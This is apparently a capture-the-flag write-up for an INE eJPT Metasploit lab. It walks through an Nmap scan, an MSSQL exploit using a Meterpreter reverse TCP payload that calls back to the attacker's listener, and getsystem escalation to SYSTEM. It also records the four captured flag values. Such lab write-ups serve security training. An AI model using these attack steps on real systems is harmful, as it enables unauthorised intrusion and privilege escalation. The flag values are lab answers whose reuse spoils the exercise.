





# Host & Network Penetration Testing: The Metasploit Framework CTF 1

**Platform:** INE Security  
**Course / Certification:** eJPT  
**Category:** Host & Network Penetration Testing — The Metasploit Framework  
**Difficulty:** Easy-Medium  
**Date Completed:** 2026-11-12  
**Flags Captured:** 4/4 ✅  

---

## 📝 Objective / Summary

The objective of this skill check lab is to utilize the Metasploit Framework alongside manual Windows post-exploitation techniques to compromise a target running Microsoft Windows Server 2012 R2 (`target.ine.local` / `10.5.24.250`).

Initial port scanning identifies open services including Microsoft SQL Server (MSSQL on port 1433). Using Metasploit with a 64-bit Meterpreter reverse TCP payload, we exploit the MSSQL service to gain initial access as `NT Service\MSSQLSERVER` and retrieve **Flag 1**. We then escalate privileges to `NT AUTHORITY\SYSTEM` using `getsystem` (technique 5: Named Pipe Impersonation PrintSpooler variant), allowing us to bypass access controls to read **Flag 2** in the Windows configuration directory (`C:\Windows\System32\config\`), discover **Flag 3** inside the network drivers directory (`C:\Windows\System32\drivers\etc\`), and retrieve the final **Flag 4** from the Administrator's Desktop.



---

## 🛠️ Tools Used

- **Nmap (`7.94SVN`)** — Network host discovery and service version fingerprinting
- **smbclient** — SMB share enumeration and access control verification
- **Metasploit Framework (`msfconsole v6.4.12`)** — MSSQL exploit module execution and payload handling
- **Meterpreter** — Post-exploitation agent (`getuid`, `sysinfo`, `getprivs`, `getsystem`)
- **Windows Command Shell (`cmd.exe`)** — Post-exploitation filesystem exploration, recursive pattern searching (`dir /s /b`), and file output reading (`type`)

---

## 🌐 Target Information

| Hostname | IP Address | Operating System | Architecture | Key Open Services | Compromise Vector |
|---|---|---|---|---|---|
| **target.ine.local** | `10.5.24.250` | Windows Server 2012 R2 (Build 9600) | x64 | MSSQL (1433/tcp), SMB (445/tcp), MSRPC (135/tcp), RDP (3389/tcp) | Metasploit MSSQL 2012 Exploit (`windows/x64/meterpreter/reverse_tcp`) |

---

## 🔍 1. Reconnaissance & Service Discovery

### Step 1.1: Nmap Port & Service Scan
We begin by running default NSE scripts and service version detection against `target.ine.local`:

```bash
nmap -sC -sV target.ine.local
```

**Nmap Scan Results:**
- **Target IP:** `10.5.24.250`
- **Open Ports:**
  - `135/tcp` — MSRPC (Microsoft Windows RPC)
  - `139/tcp` — NetBIOS-SSN
  - `445/tcp` — Microsoft-DS (SMB)
  - `1433/tcp` — MSSQL (Microsoft SQL Server)
  - `3389/tcp` — RDP (Remote Desktop Protocol)
  - `49152-49155/tcp` — Dynamic MSRPC ports

### Step 1.2: SMB Share Probing
We check if SMB shares can be listed anonymously:

```bash
smbclient -L //10.5.24.250 -N
```
**Output:**
```
NT_STATUS_ACCESS_DENIED
```
Anonymous SMB access is restricted, shifting our primary focus to the exposed MSSQL service on port 1433.

---

## 🚪 2. Exploitation: Gaining Access via Metasploit

### Step 2.1: Locating and Configuring the Exploit
We launch the Metasploit console and search for relevant MSSQL exploit modules:

```bash
msfconsole
msf6 > search mssql_login
msf6 > search MSSQL 2012
```

We select the appropriate exploit module:

```bash
msf6 > use 0
msf6 exploit(...) > show options
```

We configure the target host and verify our local network interfaces to select the correct callback IP:

```bash
msf6 exploit(...) > set RHOSTS 10.5.24.250
```

Checking local IP addresses on the Kali attacker system:
```bash
ip -br addr
# eth0: 10.1.0.15/16
# eth1: 10.10.36.5/24
```

We set the local listener host (`LHOST`) to our routable lab interface `10.10.36.5`:

```bash
msf6 exploit(...) > set LHOST 10.10.36.5
```

### Step 2.2: Architecture & Payload Configuration
The default 32-bit (`x86`) Meterpreter payload fails because the target machine is running a 64-bit operating system. We explicitly switch to the 64-bit reverse TCP payload:

```bash
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > exploit
```

A Meterpreter session opens successfully!

---

## 🎯 3. Initial Access Enumeration & Flag 1

### Step 3.1: Session Fingerprinting
Inside our Meterpreter session, we inspect our identity and system context:

```bash
meterpreter > getuid
# Server username: NT Service\MSSQLSERVER

meterpreter > sysinfo
# Computer        : WIN-5BQ22OKH4SO
# OS              : Windows Server 2012 R2 (6.3 Build 9600)
# Architecture    : x64
# System Language : en_US
# Meterpreter     : x64/windows

meterpreter > pwd
# C:\Windows\system32
```

### Step 3.2: Retrieving Flag 1
We navigate to the root of the `C:\` drive to inspect files:

```bash
meterpreter > cd C:\
meterpreter > ls
```
```
Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2021-12-15 09:58:20 +0530  $Recycle.Bin
100666/rw-rw-rw-  1       fil   2013-06-18 17:48:29 +0530  BOOTNXT
040777/rwxrwxrwx  0       dir   2013-08-22 20:18:41 +0530  Documents and Settings
040777/rwxrwxrwx  0       dir   2013-08-22 21:22:33 +0530  PerfLogs
040555/r-xr-xr-x  4096    dir   2025-01-09 12:30:38 +0530  Program Files
040777/rwxrwxrwx  4096    dir   2024-12-15 14:57:59 +0530  Program Files (x86)
040777/rwxrwxrwx  4096    dir   2015-08-13 21:42:59 +0530  ProgramData
040777/rwxrwxrwx  0       dir   2021-12-31 13:30:32 +0530  System Volume Information
040555/r-xr-xr-x  4096    dir   2025-01-09 12:42:28 +0530  Users
040777/rwxrwxrwx  24576   dir   2025-01-09 12:38:38 +0530  Windows
100444/r--r--r--  398356  fil   2014-03-18 15:35:18 +0530  bootmgr
100666/rw-rw-rw-  34      fil   2026-11-12 13:13:27 +0530  flag1.txt
000000/---------  0       fif   1970-01-01 05:30:00 +0530  pagefile.sys
```

We read `flag1.txt`:

```bash
meterpreter > cat flag1.txt
```
```
e403fd5d522841319006133d525ef5aa
```



✅ **Flag 1 Captured:** `e403fd5d522841319006133d525ef5aa`

---

## 📈 4. Privilege Escalation & Flag 2

### Step 4.1: Permission Boundary & Escalation to SYSTEM
Per the lab objectives, Flag 2 is located within the Windows configuration folder (`C:\Windows\System32\config\`). Attempting to access this folder as `NT Service\MSSQLSERVER` results in **Access Denied**:

```bash
meterpreter > cd C:\Windows\System32\config
# [-] stdapi_fs_chdir: Operation failed: Access is denied.
```

We inspect our assigned privileges and elevate permissions using Meterpreter's `getsystem`:

```bash
meterpreter > getprivs
meterpreter > getsystem
```
**Output:**
```
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

We spawn an interactive Windows command shell as `NT AUTHORITY\SYSTEM`:

```bash
meterpreter > shell
```
```
Process 2828 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

### Step 4.2: Retrieving Flag 2
Now operating with SYSTEM privileges, we access `C:\Windows\System32\config`:

```cmd
C:\Windows\System32>cd C:\Windows\System32\config
C:\Windows\System32\config>dir
```
```
 Directory of C:\Windows\System32\config

11/12/2026  07:53 AM    <DIR>          .
11/12/2026  07:53 AM    <DIR>          ..
05/09/2014  12:52 AM           262,144 BCD-Template
11/12/2026  07:44 AM       101,187,584 COMPONENTS
08/22/2013  01:25 PM                 0 COMPONENTS.LOG
07/21/2026  12:36 PM         2,621,440 DEFAULT
08/22/2013  01:25 PM                 0 DEFAULT.LOG
11/12/2026  07:54 AM         4,521,984 DRIVERS
11/12/2026  07:43 AM                34 flag2.txt
08/22/2013  01:29 PM               164 FP
08/22/2013  01:25 PM    <DIR>          Journal
11/12/2026  07:52 AM    <DIR>          RegBack
07/21/2026  12:36 PM           262,144 SAM
07/21/2026  12:36 PM           262,144 SECURITY
08/22/2013  01:25 PM                 0 SECURITY.LOG
07/21/2026  12:36 PM        89,653,248 SOFTWARE
08/22/2013  01:25 PM                 0 SOFTWARE.LOG
07/21/2026  12:36 PM        12,582,912 SYSTEM
08/22/2013  01:25 PM                 0 SYSTEM.LOG
06/20/2014  07:56 PM    <DIR>          systemprofile
03/18/2014  10:32 AM    <DIR>          TxR
```

We read `flag2.txt`:

```cmd
C:\Windows\System32\config>type flag2.txt
```
```
1411544ce3e04c86919b210cd21f36ed
```



✅ **Flag 2 Captured:** `1411544ce3e04c86919b210cd21f36ed`

---

## 🔎 5. System Directory Hunting & Flag 3

### Step 5.1: Recursive Pattern Search in System32
Objective 3 specifies that the third flag is hidden within the Windows system directory and contains a hint for accessing the final flag. We execute a fast recursive text file scan across `C:\Windows\System32`:

```cmd
C:\Windows\System32>dir C:\Windows\System32\*.txt /s /b
```

**Search Output:**
```
C:\Windows\System32\catroot2\dberr.txt
C:\Windows\System32\config\flag2.txt
C:\Windows\System32\config\systemprofile\AppData\Local\Amazon\Ec2Config\Logs\FrameworkLaunchException.txt
C:\Windows\System32\drivers\gmreadme.txt
C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt
C:\Windows\System32\en-US\erofflps.txt
C:\Windows\System32\WindowsPowerShell\v1.0\en-US\default.help.txt
C:\Windows\System32\WindowsPowerShell\v1.0\Modules\BitsTransfer\en-US\about_BITS_Cmdlets.help.txt
```

### Step 5.2: Retrieving Flag 3
The search uncovers `C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt`. We output its contents:

```cmd
C:\Windows\System32>type C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt
```
```
3e80ed64c69d4541ba611197fc303848
```



✅ **Flag 3 Captured:** `3e80ed64c69d4541ba611197fc303848`

---

## 👑 6. Administrator Directory Investigation & Flag 4

### Step 6.1: Navigating to the Administrator Desktop
With SYSTEM privileges active, we navigate directly into the Administrator user profile on `C:\`:

```cmd
C:\Windows\System32>cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>dir
```

**Directory Listing:**
```
 Volume in drive C has no label.
 Volume Serial Number is 5CD6-020B

 Directory of C:\Users\Administrator\Desktop

11/12/2026  07:43 AM    <DIR>          .
11/12/2026  07:43 AM    <DIR>          ..
11/12/2026  07:43 AM                34 flag4.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,493,265,408 bytes free
```

### Step 6.2: Retrieving Flag 4
We read `flag4.txt`:

```cmd
C:\Users\Administrator\Desktop>type flag4.txt
```
```
3f9abf6beec44dc4a29a8034502475d8
```



✅ **Flag 4 Captured:** `3f9abf6beec44dc4a29a8034502475d8`

---

## 🏁 Flags Summary

| Flag | Objective / Challenge Question | File Location | Retrieval Method | Captured Value |
|---|---|---|---|---|
| **Flag 1** | Gain access to the MSSQLSERVER account on the target machine | `C:\flag1.txt` | Meterpreter filesystem inspection | `e403fd5d522841319006133d525ef5aa` |
| **Flag 2** | Locate the second flag within the Windows configuration folder | `C:\Windows\System32\config\flag2.txt` | Escalated to SYSTEM via `getsystem`, read in Windows CMD | `1411544ce3e04c86919b210cd21f36ed` |
| **Flag 3** | Hidden within system directory / uncover hint for accessing final flag | `C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt` | Discovered with `dir C:\Windows\System32\*.txt /s /b` | `3e80ed64c69d4541ba611197fc303848` |
| **Flag 4** | Investigate the Administrator directory to find the fourth flag | `C:\Users\Administrator\Desktop\flag4.txt` | Read directly from Administrator Desktop as SYSTEM | `3f9abf6beec44dc4a29a8034502475d8` |

---

## 🧠 Key Learnings & Takeaways

1. **Payload Architecture Compatibility:** When targeting Windows Server x64 editions, utilizing default 32-bit payloads (`windows/meterpreter/reverse_tcp`) causes memory injection crashes. Explicitly specifying `windows/x64/meterpreter/reverse_tcp` ensures successful session staging.
2. **Service Account Privilege Boundaries:** Service accounts like `NT Service\MSSQLSERVER` operate under restricted ACLs. Critical registry hives and system configurations (`System32\config`) and administrative user profiles (`Users\Administrator`) are protected by Windows DACLs and inaccessible without privilege escalation.
3. **PrintSpooler Named Pipe Impersonation (`getsystem -t 5`):** Windows Server 2012 R2 architectures frequently leave the Print Spooler service running by default. Metasploit's named pipe impersonation technique leverages `spoolsv.exe` to trigger a connection back to a controlled pipe, capturing and impersonating the SYSTEM token in one step.
4. **Efficient File Reconnaissance (`dir /s /b`):** When Meterpreter's `search` command runs slowly due to extensive disk indexing, dropping into a native Windows command shell and running `dir <Path>\*.txt /s /b` provides instant recursive filtering across system trees.
